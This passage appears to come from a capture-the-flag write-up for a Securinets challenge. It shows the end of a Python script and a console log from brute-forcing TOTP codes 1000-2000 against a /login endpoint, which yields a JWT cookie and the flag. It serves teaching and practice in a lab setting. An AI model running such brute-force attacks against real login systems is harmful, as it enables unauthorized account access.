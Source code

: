 ```python
        flag = brute_force_totp_sequential()
        if flag:
            print(f"Final Result: {flag}")
        else:
            print("No flag found in the range 1000-2000.")
    else:
        print("Aborting due to server connectivity issues.")
```





```powershell
PS C:\Users\saleh\Downloads\CTFKareemSecurinetsTekup\jw\challenge> python .\brute.py
Brute-forcing TOTP (1000-2000) sequentially via /login...
...
TOTP 1335 failed (Status: 400)
TOTP 1336 failed (Status: 400)
Trying TOTP: 1337

Login successful with TOTP: 1337
JWT Cookie: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0MjA0NjU1MSwianRpIjoiMGE4MjI5MGQtZmFjOC00YTYzLWFhNTYtYTBlNzBiNDk2NmQ1IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6IktvbmFOLmc3cTlnNGVhN3FAc2V1cmluZXRzLnRla3VwIiwibmJmIjoxNzQyMDQ2NTUxLCJleHAiOjE3NDIwNDc0NTEsInJvbGUiOjIsImF2YXRhciI6Ii9hc3NldHMvaW1nL0tvbmFOLnBuZyIsInRvdHAiOjEzMzd9.hrJFsuvfnS7dMEG54nJroArxOy67qGjJtYuT9WxiTvs
Dashboard response: ....
        <h3 class="text-xl font-semibold text-gray-700">Your Flag:</h3>
        <p class="text-2xl text-green-600 font-bold">Securinets{JWT_juGGliNg_w1th_T0TP_m4st3ry!}</p>
      </div>
...
Success! Flag: Securinets{JWT_juGGliNg_w1th_T0TP_m4st3ry!} (TOTP: 1337)
```

